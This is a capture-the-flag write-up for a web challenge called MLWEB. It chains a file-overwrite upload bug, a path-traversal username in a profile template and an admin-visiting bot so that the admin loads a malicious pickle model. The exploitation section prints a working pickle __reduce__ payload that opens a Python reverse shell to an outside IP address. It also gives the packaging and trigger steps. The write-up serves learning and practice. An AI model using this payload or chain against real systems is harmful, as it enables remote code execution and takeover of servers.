





# MLWEB



## Website overview

Looking at the source code, there are some interesting parts :

In : routes/routes_user.py
```py
@bp_user.route('/upload', methods=['GET', 'POST'])
@login_required
def upload_model():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash("Please select a file to upload", "danger")
            return redirect(url_for('bp_user.upload_model'))

        file = request.files['file']
        if file.filename == '' or not check_allowed_extensions(file.filename):
            flash("Please use a valid file and filename", "danger")
            return redirect(url_for('bp_user.upload_model'))

        filename = secure_filename(file.filename)
        file_path = os.path.join(current_app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        model = OptimizedModel(name=file.filename, file_path=file_path, user_id=session['user_id'])
        db.session.add(model)
        db.session.commit()
        flash("File successfully uploaded", "success")
        return redirect(url_for('bp_user.upload_model'))

    return render_template('upload.html')
```

We can see that when uploading a file, the program doesn't check if a file already exists. With this, we can easily overwrite files by knowing there name (as long as it stays in upload directory).

In : templates/view_profile.html
```html
<script>
document.addEventListener("DOMContentLoaded", function () {
     const statusLabel = document.getElementById("statusLabel");
    
    fetch('/profile/{{ user.username }}/is_logged')
        .then(response => response.json())
        .then(data => {
            if (data.is_logged) {
                statusLabel.innerHTML = "Status: <strong class='text-success'>Active</strong>";
            } else {
                statusLabel.innerHTML = "Status: <strong class='text-danger'>Inactive</strong>";
            }
        }
    );
});
</script>
```

In this template, we can use a username like `../where/u/want?` to do a get somewhere on the website.


In : routes/admin_routes.py
```py
@bp_admin.route('/model/load/<int:model_id>', methods=['GET'])
@admin_required
def load_model(model_id):
    print("good")
    model = OptimizedModel.query.filter_by(id=model_id, user_id=session['user_id']).first()
    if not model:
        flash("Model not found", "danger")
        return redirect(url_for('bp_user.list_models'))

    try:
        load(model.file_path)
        flash("Model successfully loaded", "success")
    except Exception as e:
        flash("Error loading model: {}".format(e), "danger")

    return redirect(url_for('bp_user.list_models'))
```

We can see that the `load` function of `hummingbird.ml` is used. By looking at the source code [here](https://github.com/microsoft/hummingbird/blob/main/hummingbird/ml/_utils.py) and [here](https://github.com/microsoft/hummingbird/blob/main/hummingbird/ml/containers/sklearn/pytorch_containers.py):


```py
def load(location, digest=None, override_flag=False):

    ...

    if "torch" in model_type:
        model = PyTorchSklearnContainer.load(location, do_unzip_and_model_type_check=False, digest=digest)
    elif "onnx" in model_type:
        model = ONNXSklearnContainer.load(location, do_unzip_and_model_type_check=False, digest=digest)
    elif "tvm" in model_type:
        model = TVMSklearnContainer.load(location, do_unzip_and_model_type_check=False, digest=digest)
    else:
        shutil.rmtree(location)
        raise RuntimeError("Model type {} not recognized.".format(model_type))
    
    ...
```

```py
class PyTorchSklearnContainer(SklearnContainer):
    @staticmethod
    def load(location, do_unzip_and_model_type_check=True, delete_unzip_location_folder: bool = True, digest=None, override_flag=False):
        
        ...

        if model_type == "torch.jit":
            # This is a torch.jit model
            model = torch.jit.load(os.path.join(location, constants.SAVE_LOAD_TORCH_JIT_PATH))
            with open(os.path.join(location, "container.pkl"), "rb") as file:
                container = pickle.load(file)
            container._model = model
        elif model_type == "torch":
            # This is a pytorch  model
            with open(os.path.join(location, constants.SAVE_LOAD_TORCH_JIT_PATH), "rb") as file:
                container = pickle.load(file)
        else:
            if delete_unzip_location_folder:
                shutil.rmtree(location)
            raise RuntimeError("Model type {} not recognized".format(model_type))
        
        ...
```

We can see that the module pickle is used, this module is prone to RCE when unpacking cradted files.

To sum up the discoveries, if we can somehow load a file that we uploaded, it's possible to gain remote code execution.

Unfortunately, the endpoint `/model/load/<int:model_id>` is only available for admins and runs only if the user is the owner of the file.


## Bot overview

After logging in, we can see a button called `visit my profile`.



When we click on it, it calls the bot. This bot uses `selenium` to execute this litle code.

```py
@bp_user.route('/profile/visit')
@login_required
def visit_profile():
    user_id = int(request.args.get('user_id', session['user_id']))
    visit_url(f"/profile/{user_id}")

    flash("Bot successfully reported", "success")
    return redirect(url_for('bp_user.view_profile', user_id=user_id))
```

```py
def visit_url(path):
    driver = webdriver.Firefox()

    driver.get(BASE_URL + "/login")
    sleep(0.5)

    username_field = driver.find_element(By.NAME, "username")
    username_field.send_keys("admin")
    password_field = driver.find_element(By.NAME, "password")
    password_field.send_keys(Config.ADMIN_PASSWORD)
    login_button = driver.find_element(By.ID, "loginBtn")
    login_button.click()
    
    sleep(0.5)
    driver.get(BASE_URL + path)

    sleep(3)
    driver.quit()
```

So the bot gets the URL `/profile/{user_id}` which contains the vulnerable template discovered previously (that allows to fetch where we want on the website). With this first vulnerability, it's possible to make him get another page, like `/model/load/x?`. Because of the owner restrtiction, the only load possible is `/model/load/1?`.

Now that we can make him load his file, we can change it by uploading a new file called `example_model.zip` to overwrite his to gain remote code execution.


# Exploitation

To sum up what we are going to do:
- create an account 
- upload a file with the same structure as `example_model.zip` but with a backdoor
- create a user called `../model/load/1?`
- click on the button `visit my profile`

Let's firstly craft a RCE payload. To do that, I'm going to use a simple reverse shell.

```py
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = "export RHOST=\"185.48.117.254\";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")'"
        return os.system, (cmd,)

with open("exp2", 'wb') as f:
    pickle.dump(RCE(), f)
```

This [script](picksploit.py) abuses the `__reduce__` property, called when loading in pickle.

Based on the informations of the example file we need to rename our payload `deploy_model.zip` and create an archive containing the 2 configuration files.

```
example_model.zip
  |
  | -- model_configuration.txt
  | -- model_type.txt
   \-- deploy_model.zip (=exp2)
```

Then, we need to create a user, let's say `a`, and upload the [achive](example_model.zip).



Then we need to create the account `../model/load/1?` and ask the bot to visit us.



If we look at the listener, we can now see the revserse shell.



Here is the flag !

Thaks for the challenge.


